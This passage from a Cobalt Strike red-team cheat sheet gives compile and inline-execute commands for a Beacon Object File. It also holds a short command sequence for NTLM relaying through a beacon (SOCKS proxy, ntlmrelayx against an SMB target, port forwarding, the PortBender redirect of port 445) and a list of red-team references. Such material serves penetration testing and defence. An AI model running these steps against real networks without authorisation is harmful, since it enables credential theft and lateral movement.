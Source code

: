    # To compile this with x86 MinGW:
    i686-w64-mingw32-gcc -c hello.c -o hello.o

    # To compile this with x64 MinGW:
    x86_64-w64-mingw32-gcc -c hello.c -o hello.o
    ```
* Execute: `inline-execute /path/to/hello.o`

## NTLM Relaying via Cobalt Strike

```powershell
beacon> socks 1080
kali> proxychains python3 /usr/local/bin/ntlmrelayx.py -t smb://<IP_TARGET>
beacon> rportfwd_local 8445 <IP_KALI> 445
beacon> upload C:\Tools\PortBender\WinDivert64.sys
beacon> PortBender redirect 445 8445
```

## References

* [Red Team Ops with Cobalt Strike (1 of 9): Operations](https://www.youtube.com/watch?v=q7VQeK533zI)
* [Red Team Ops with Cobalt Strike (2 of 9): Infrastructure](https://www.youtube.com/watch?v=5gwEMocFkc0)
* [Red Team Ops with Cobalt Strike (3 of 9): C2](https://www.youtube.com/watch?v=Z8n9bIPAIao)
* [Red Team Ops with Cobalt Strike (4 of 9): Weaponization](https://www.youtube.com/watch?v=H0_CKdwbMRk)
* [Red Team Ops with Cobalt Strike (5 of 9): Initial Access](https://www.youtube.com/watch?v=bYt85zm4YT8)
* [Red Team Ops with Cobalt Strike (6 of 9): Post Exploitation](https://www.youtube.com/watch?v=Pb6yvcB2aYw)
* [Red Team Ops with Cobalt Strike (7 of 9): Privilege Escalation](https://www.youtube.com/watch?v=lzwwVwmG0io)
* [Red Team Ops with Cobalt Strike (8 of 9): Lateral Movement](https://www.youtube.com/watch?v=QF_6zFLmLn0)
* [Red Team Ops with Cobalt Strike (9 of 9): Pivoting](https://www.youtube.com/watch?v=sP1HgUu7duU&list=PL9HO6M_MU2nfQ4kHSCzAQMqxQxH47d1no&index=10&t=0s)
* [A Deep Dive into Cobalt Strike Malleable C2 - Joe Vest - Sep 5, 2018 ](https://posts.specterops.io/a-deep-dive-into-cobalt-strike-malleable-c2-6660e33b0e0b)
* [Cobalt Strike. Walkthrough for Red Teamers - Neil Lines - 15 Apr 2019](https://www.pentestpartners.com/security-blog/cobalt-strike-walkthrough-for-red-teamers/)
* [TALES OF A RED TEAMER: HOW TO SETUP A C2 INFRASTRUCTURE FOR COBALT STRIKE – UB 2018 - NOV 25 2018](https://holdmybeersecurity.com/2018/11/25/tales-of-a-red-teamer-how-to-setup-a-c2-infrastructure-for-cobalt-strike-ub-2018/)
* [Cobalt Strike - DNS Beacon](https://www.cobaltstrike.com/help-dns-beacon)
* [How to Write Malleable C2 Profiles for Cobalt Strike - January 24, 2017](https://bluescreenofjeff.com/2017-01-24-how-to-write-malleable-c2-profiles-for-cobalt-strike/)
* [NTLM Relaying via Cobalt Strike - July 29, 2021 - Rasta Mouse](https://rastamouse.me/ntlm-relaying-via-cobalt-strike/)
* [Cobalt Strike - User Guide](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/welcome_main.htm)
* [Cobalt Strike 4.6 - User Guide PDF](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/cobalt-4-6-user-guide.pdf)

